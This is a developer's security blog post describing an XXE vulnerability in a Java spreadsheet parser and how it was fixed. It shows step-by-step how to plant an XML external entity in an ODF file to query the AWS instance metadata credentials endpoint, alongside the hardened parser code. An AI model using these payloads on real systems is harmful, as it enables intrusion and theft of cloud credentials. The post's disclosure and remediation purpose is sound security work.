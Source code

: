 ```yaml
---
title: "Hiding XXE in Spreadsheets"
date: 2018-06-08T12:24:08+01:00
category: ["security"]
---
```


![](/images/hiding_xxe_in_spreadsheets_title.jpg)

Recently I tried to poke holes in a service.  I found myself [laughing out loud]({{< ref "/posts/laughing_out_loud_malicious_auth.md" >}}). 
This was a vulnerability whereby modifying a SAML authentication while being rePOSTed via the browser allowed 
me to inject a malicious payload (see [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) 
and [XML External Entity (XXE) Prevention Cheat Sheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet)) 
that could be used to use up a service's memory and CPU.  Health checks and automatic service restarts would have 
healed the service but it still would have allowed an attacker to mount a Denial of Service attack without 
needing a lot of requests.

# Finding the Issue

Subsequently, I identified a number of services that needed to be fixed, and while I was fixing services I used the 
following regular expression to find other possible weaknesses:

```shell script
SAXBuilder|SAXReader|XMLReader|SAXTransformerFactory|SchemaFactory|TransformerFactory|XMLInputFactory|DocumentBuilderFactory|SAXParserFactory
```

This lead me to find the following code snippet in a class called WorksheetParser

```java
public WorksheetParser() throws ParserConfigurationException, SAXException
{
  SAXParserFactory factory = SAXParserFactory.newInstance();

  factory.setNamespaceAware(true);
  factory.setValidating(true);

  this.saxParser = factory.newSAXParser();
}
```

and `WorksheetParser` was used to parse ODF spreadsheets (OpenOffice spreadsheets).

In this app, "worksheet"s were used so that organisations can use a simple spreadsheet to collect their information and 
upload it.  The app parsed the information and played it back to the user.

Now, this got me thinking - as the ODF file format is just a ZIP file with XML content - and I had just found an 
unsecured `SAXParserFactory`, how difficult would it be to exploit that?

# The Exploit

So I got the spreadsheet and opened it up in LibreOffice and I filled in some basic data including first name and 
last name and saved the file.

Then I unzipped it

```shell script
$ mkdir xxe_bomb
$ cd xxe_bomb
$ unzip ../template_filled_in.ods
Archive:  ../template_filled_in.ods
 extracting: mimetype               
  inflating: styles.xml             
  inflating: META-INF/manifest.xml  
  inflating: content.xml            
  inflating: meta.xml               
 extracting: media/image1.png
```

then I just edited the content.xml file and added

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe-root [
        <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
```

then I looked for the last name that I entered ("Doe") - and replaced it with &xxe;

Then it was just a matter of zipping it back up again as my new payload file

```shell script
$ zip ../xxe_bomb.ods *
  adding: META-INF/ (stored 0%)
  adding: content.xml (deflated 98%)
  adding: media/ (stored 0%)
  adding: meta.xml (deflated 57%)
  adding: mimetype (deflated 4%)
  adding: styles.xml (deflated 79%)
```

Then once I had uploaded the file and the app played back the last name - I was able to get the IAM role...

# Limitations

The exploit was somewhat limited because the app validated the last name, and if there are unknown characters 
(like '{' or '}') an error would be displayed. So I wasn't able to extract the AWS keys by setting the payload to:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe-root [
        <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/app-server-role">
]>
```

as per [https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials)

Also those credentials would have been somewhat limited as they were locked down.

However, with enough knowledge of the system and the ability to execute arbitrary GET requests, I believe quite a 
bit of damage could have been done.

# The Fix

The offending class was changed to

```java
public WorksheetParser() throws ParserConfigurationException, SAXException
{
  SAXParserFactory factory = SAXParserFactory.newInstance();
  factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  factory.setXIncludeAware(false);
  factory.setNamespaceAware(true);
  factory.setValidating(true);

  this.saxParser = factory.newSAXParser();
}
```

as per the [OWASP XXE Prevention Cheat Sheet](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet#JAXP_DocumentBuilderFactory.2C_SAXParserFactory_and_DOM4J).

# Moral of the Story

*   Malicious XXE payloads can hidden in files that do not have the XML extension
*   Do not assume that XML processing is safe by default (particular when using older libraries) 
*   XML is evil
